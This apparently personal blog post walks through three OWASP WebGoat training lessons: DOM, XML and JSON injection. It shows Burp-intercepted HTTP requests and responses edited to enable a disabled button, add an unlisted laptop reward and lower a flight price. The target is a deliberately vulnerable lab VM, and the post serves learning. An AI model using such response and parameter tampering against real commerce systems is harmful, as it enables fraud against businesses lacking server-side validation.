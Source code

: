 ```yaml
---
layout: post
title:  "OWASP BWA WebGoat Challenge Part 3 (Continued)"
date:   2017-01-24 17:00:00 -0500
author: "coastal"
header-img: "images/site-resources/webgoat-header.jpg"
---
```

# AJAX Security Part 5: Dom Injection
Alright, we're given the following instructions for this challenge:

- Your victim is a system that takes an activation key to allow you to use it.
- Your goal should be to try to get to enable the activate button.
- Take some time to see the HTML source in order to understand how the key validation process works.

Let's take a look at the HTML that defines the ```Activate``` button

```
<input disabled="" id="SUBMIT" value="Activate!" name="SUBMIT" type="SUBMIT">
```

Hmm..disabled? But, what if we just...

```
<input enabled="" id="SUBMIT" value="Activate!" name="SUBMIT" type="SUBMIT">
```

<img src="{{ site.baseurl }}/images/2017-01-24-webgoat_part_3_continued/dom-injection.jpg">

Well, okay! ```¯\_(ツ)_/¯```

# AJAX Security Part 6: XML Injection
We're given the following instructions for this challenge:

<img src="{{ site.baseurl }}/images/2017-01-24-webgoat_part_3_continued/xml-injection.jpg">

Looks like we're probably going to need to fire up Burp and check out some requests. Now I have to be honest, I spent *a lot* of time messing around with requests and trying to see the breadcrumb I was missing. Then I realized that there was an option to capture the response to a given request in Burp...Which it turns out was pretty essential to solving this one. So when I finished typing in my account number (836239), an AJAX request fired out:

```
GET /WebGoat/attack?Screen=59&menu=400&from=ajax&accountID=836239 HTTP/1.1
Host: 192.168.56.101
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:50.0) Gecko/20100101 Firefox/50.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: http://192.168.56.101/WebGoat/attack?Screen=59&menu=400
Cookie: JSESSIONID=C1702A9FE913D04E2F177203213F9149; acopendivids=swingset,jotto,phpbb2,redmine; acgroupswithpersist=nada
Authorization: Basic dXNlcjp1c2Vy
Connection: close
```

Alright, cool. Looks like it's going to retrieve my list of possible rewards from the webserver. I set Burp to intercept the server response and let it fly. The server did in fact come back with the list of rewards I was allowed to request:

```
HTTP/1.1 200 OK
Content-Length: 136
Connection: close

<root>
<reward>WebGoat Mug 20 Pts</reward>
<reward>WebGoat t-shirt 50 Pts</reward>
<reward>WebGoat Secure Kettle 30 Pts</reward>
</root>
```

But, I felt like I had been good this year. That and I'm pretty sure running 16.04 on my macbook is going to result in a fireball. So let's get a new laptop!

```
HTTP/1.1 200 OK
Content-Length: 136
Connection: close

<root>
<reward>WebGoat Mug 20 Pts</reward>
<reward>WebGoat t-shirt 50 Pts</reward>
<reward>WebGoat Secure Kettle 30 Pts</reward>
<reward>WebGoat Core Duo Laptop 2000 Pts</reward>
</root>
```

<img src="{{ site.baseurl }}/images/2017-01-24-webgoat_part_3_continued/xml-injection-1.jpg">

Cool, it looks like we can select the laptop that wasn't previously on our list of rewards. Let's send it out and see if we can game the system:

```
POST /WebGoat/attack?Screen=59&menu=400 HTTP/1.1
Host: 192.168.56.101
Content-Length: 82

accountID=836239&check1001=on&check1002=on&check1003=on&check1004=on&SUBMIT=Submit
```

S-(e)[u]-rve-(r)[y] says.....

<img src="{{ site.baseurl }}/images/2017-01-24-webgoat_part_3_continued/xml-injection-2.jpg">

Nice!

# AJAX Security Part 7: JSON Injection
JavaScript Object Notation, or JSON, is a data-interchange format that a lot of applications use for passing information back and forth. It is language-independent, which is desirable for applications, clients, and servers talking to each other when it can't be guaranteed that they all use the same backend language. In this challenge, we have a flight to catch:

- You are traveling from Boston, MA- Airport code BOS to Seattle, WA - Airport code SEA.
- Once you enter the three digit code of the airport, an AJAX request will be executed asking for the ticket price.
- You will notice that there are two flights available, an expensive one with no stops and another cheaper one with 2 stops.
- Your goal is to try to get the one with no stops but for a cheaper price. 

At first glance, it looks to me like another case of response interception and alteration. So firing up Burp (or I guess just keeping it open), I intercepted the request for a flight from BOS to SEA. Then I marked the server response to be intercepted and took a look:

```
{
	"From": "Boston",
	"To": "Seattle", 
	"flights": [
		{"stops": "0", "transit" : "N/A", "price": "$600"},
		{"stops": "2", "transit" : "Newark,Chicago", "price": "$300"} 
	]
}
```

Which pops up in the browser like so:

<img src="{{ site.baseurl }}/images/2017-01-24-webgoat_part_3_continued/json-injection-1.jpg">

Alright, lets request again and modify the server's response to see if we can manipulate the return data. I changed the price of our non-stop flight to the affordable price of $10 and forwarded it back to the browser. 

<img src="{{ site.baseurl }}/images/2017-01-24-webgoat_part_3_continued/json-injection-2.jpg">

And, when we send it...Got it! Apparently no server-side checks for validity. Nice.